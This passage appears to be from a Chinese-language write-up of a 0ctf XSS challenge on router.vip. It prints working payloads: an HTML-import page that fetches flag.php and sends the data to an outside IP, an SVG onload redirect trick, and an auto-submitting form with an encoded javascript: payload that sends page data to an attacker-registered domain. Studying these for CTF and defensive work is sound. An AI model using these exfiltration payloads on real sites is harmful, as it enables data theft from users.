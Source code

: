 

![juhao2](https://moxiaoxi.info/img/post/0ctf/juhao2.png)



最终的payload：

 ```html
<link rel=import href=\\test。com
 ```

https://test。com/index.html

```html
<html>
<head>
<meta http-equiv="Access-Control-Allow-Origin" content="*">
</head>


<script src="https://cdn.bootcss.com/jquery/2.2.4/jquery.min.js"></script>
<script type="text/javascript">
$.get("https://router.vip/flag.php",function(data){
//alert(data);
        location.href="http://104.224.169.90:6789/"+escape(data);
});
</script>


</html>
```



#### 奇特的思路 svg

看了[LC↯BC](https://ctftime.org/team/15726)的题解，思路超级猥琐！

payload

```
<svg id=\ onload=location=id+id+12345609861+domain+id+1234+id
```

这个domain是取的当下页面的domain，也就是router.vip。所以，我们需要注册一个xxxxrouter.vip的域名。这种思路主要是因为.被过滤了。（俄罗斯人肯定不知道。可以过滤成.2333中文的强大😂）

然后，在 https://12345609861router.vip/1234/index.html下写了一个页面。将`<svg onload=location=name`提交给preview，完成二次xss触发。它会执行window.name中的东西，发送一个get请求，并把数据弹回来

```html
<html>
  <body>
    <form id="send" action="https://router.vip/preview.php?" method="POST">
      <input type="hidden" name="task" value="" />
      <input type="hidden" name="payload" value="&lt;svg&#32;onload&#61;location&#61;name" />
      <input type="hidden" name="geetest&#95;challenge" value="" />
      <input type="hidden" name="geetest&#95;validate" value="" />
      <input type="hidden" name="geetest&#95;seccode" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
    window.name = "javascript:%76%61%72%20%78%68%72%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%0a%78%68%72%2e%6f%70%65%6e%28%27%47%45%54%27%2c%20%27%68%74%74%70%73%3a%2f%2f%72%6f%75%74%65%72%2e%76%69%70%2f%66%6c%61%67%2e%70%68%70%27%2c%20%66%61%6c%73%65%29%3b%0a%78%68%72%2e%73%65%6e%64%28%29%3b%0a%69%66%20%28%78%68%72%2e%73%74%61%74%75%73%20%3d%3d%20%32%30%30%29%20%7b%0a%20%20%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%73%3a%2f%2f%31%32%33%34%35%36%30%39%38%36%31%72%6f%75%74%65%72%2e%76%69%70%2f%31%32%33%34%2f%3f%72%65%73%75%6c%74%3d%27%2b%78%68%72%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%0a%7d";
    document.getElementById("send").submit();
    </script>
```